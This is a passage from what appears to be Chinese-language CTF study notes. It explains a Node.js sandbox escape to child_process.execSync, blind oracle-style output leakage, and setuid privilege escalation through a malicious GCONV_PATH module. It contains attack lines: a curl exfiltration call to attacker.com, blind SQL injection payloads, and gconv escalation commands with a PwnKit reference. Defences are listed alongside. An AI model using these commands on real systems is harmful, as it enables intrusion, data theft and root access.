      使用 Proxy 对象动态拦截属性访问，避免直接写出黑名单词。
      返回一个 thenable 对象，当 await 时触发 get trap，拿到宿主回调，进而构造出 require('child_process').execSync 等命令执行函数
   3. 扩展知识
      常见沙箱逃逸手法：
         通过 constructor.constructor 拿到 Function。
         通过 this 或 arguments.callee 回溯到全局对象。
         利用 Error.prepareStackTrace 获取调用栈信息。
      防御：使用 --disallow-code-generation-from-strings 或 vm 模块的 context 彻底冻结原型链。
6. Oracle 式结果读取
   1. 知识点解释
      Oracle 攻击：无法直接读取完整结果，只能一次问一个比特或一个字符。
      常见于 SQL 盲注、命令执行无回显、带宽限制等场景。
   2. 本题用法
      执行命令后，输出被截断或无法直接显示。
      通过循环请求 /api/run?cursor=0、cursor=1…… 逐字符拼接出完整执行结果。例如：cat /etc/passwd 的结果通过该接口一位一位泄露。
   3. 扩展知识
      攻击方式：
         基于时间盲注：if(ascii(substr(data,1,1))>100) sleep(1)
         基于错误回显：触发特定错误码
         基于 DNS 外带：curl http://attacker.com/$(whoami)
      防御：限制请求频率、过滤特殊字符、使用白名单输出。
7. setuid 程序与 gconv 提权
   1. 知识点解释
      setuid：Linux 中让普通用户以文件所有者的权限运行程序。
      gconv：glibc 的字符集转换模块，可通过 GCONV_PATH 环境变量加载恶意模块。
      攻击方式：编译一个恶意 .so 文件，其中 gconv_init 函数执行系统命令（如读取 /flag）。
   2. 本题用法
      Web 服务是低权限用户，直接无法读 /flag。
      存在一个 setuid 程序 /usr/local/bin/omni_pkexec，以高权限运行。
      通过命令执行触发该程序，或设置 GCONV_PATH 让高权限进程加载恶意 gconv 模块，从而读取 flag。
   3. 扩展知识
      1. 为什么 gconv 可以用于提权？
         核心原理：
         glibc 允许通过环境变量 GCONV_PATH 指定自定义模块目录
         如果一个 setuid root 程序调用了 iconv_open()，它会以 root 权限加载模块
         攻击者可以编译恶意 .so 模块，在 gconv_init() 中执行任意代码
         通过设置 GCONV_PATH，让 setuid 程序加载恶意模块 → 以 root 权限执行恶意代码
      
      2. gconv 提权步骤：
         1. 创建恶意 gconv-modules 文件
            作用：告诉 glibc 哪个字符集对应哪个 .so 模块
            文件格式：
            ```text
            # 模块定义文件
            # 格式: module <输出字符集>// <输入字符集>// <模块名> <优先级>
            module UTF-8// PWN// gconv_pwn 1
            ```
            含义：
            当请求从 PWN 字符集转换到 UTF-8 时
            加载名为 gconv_pwn.so 的模块
            优先级为 1（数字越大优先级越高）
            创建命令：
            ```bash
            echo 'module UTF-8// PWN// gconv_pwn 1' > /tmp/gconv-modules
            ```
         2. 设置 GCONV_PATH=.
            作用：告诉 glibc 从自定义目录加载 gconv 模块
            正常行为：
            glibc 默认从 /usr/lib/gconv/ 加载模块
            这是系统目录，普通用户无法写入
            攻击行为：
            ```bash
            export GCONV_PATH=/tmp
            ```
            现在 glibc 会优先从 /tmp 目录查找模块
            普通用户可以在 /tmp 创建文件
            注意：对于 setuid 程序，glibc 会清除某些危险环境变量。但 GCONV_PATH 在某些 glibc 版本中不会被清除
         3. 调用 iconv_open 触发 gconv_init
            让目标程序加载恶意模块
            正常程序代码：
            ```c
            #include <iconv.h>
            int main() {
               // 请求从 "PWN" 转换到 "UTF-8"
               iconv_t cd = iconv_open("UTF-8", "PWN");
               if (cd == (iconv_t)-1) {
                  perror("iconv_open");
                  return 1;
               }
               // ... 转换数据 ...
               iconv_close(cd);
               return 0;
            }
            触发过程：
            ```
            iconv_open("UTF-8", "PWN") 被调用
                  |
            glibc 检查 GCONV_PATH 环境变量（存在，指向 /tmp）
                  |
            在 /tmp 目录查找 gconv-modules 文件
                  |
            解析配置文件，发现 PWN → UTF-8 对应模块 gconv_pwn
                  |
            加载 /tmp/gconv_pwn.so
                  |
            调用 .so 中的 gconv_init() 函数
                  |
            恶意代码以调用者权限执行（root）
                  |
            实现提权
            ```
      经典利用：sudo、pkexec 的 CVE-2021-4034（PwnKit）漏洞。
      防御：禁用 setuid 程序、移除不必要的 gconv 模块、使用 no_new_privs。